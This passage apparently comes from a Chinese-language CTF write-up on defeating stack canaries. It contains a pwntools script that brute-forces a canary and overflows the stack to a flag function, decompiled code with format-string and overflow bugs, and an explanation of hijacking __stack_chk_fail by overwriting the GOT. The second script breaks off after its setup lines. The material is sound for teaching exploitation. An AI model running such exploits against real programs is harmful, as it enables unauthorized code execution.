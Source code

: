 ```c
}
```
思路：爆破 canary ，然后进行栈溢出，将得到的 canary 填回去，从而getflag
```python
from pwn import *

p=process("./bin1")
context.log_level='debug'
getflag=0x0804863B

p.recvuntil("welcome\n")

# Brute force canary 
canary='\x00'
for i in range(3):
	for j in range(256):
		payload='a'*(0x70-0xc)+canary+chr(j)
		p.send(payload)
		text = p.recvuntil("welcome\n")
		if "recv" in text:
			canary += chr(j)
			break

payload='a'*(0x70-0xc)+canary+'a'*(0xc-0x4)+'a'*0x4+p32(getflag)
p.sendline(payload)

p.interactive()
```

### 劫持__stack_chk_fail函数
Canary失败的处理逻辑会进入到 \__stack_chk_failed函数，\__stack_chk_failed函数是一个普通的延迟绑定函数，可以通过修改GOT表劫持这个函数。

**[题目地址 r2t4](r2t4)** 

可以看到程序存在栈溢出和格式化字符串漏洞
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  read(0, &buf, 0x38uLL); //栈溢出
  printf(&buf, &buf);     //格式化字符串漏洞
  return 0;
}
```
程序还存在后门函数
```c
unsigned __int64 backdoor()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  system("cat flag");
  return __readfsqword(0x28u) ^ v0;
}
```
思路：利用格式化字符串漏洞把 __stack_chk_failed 的got表改成 backdoor 的地址。然后故意触发 __stack_chk_failed ，从而执行 backdoor
```python
from pwn import *

p=process("./r2t4")
elf=ELF("./r2t4")
context(arch='amd64',os='linux',log_level='debug')
```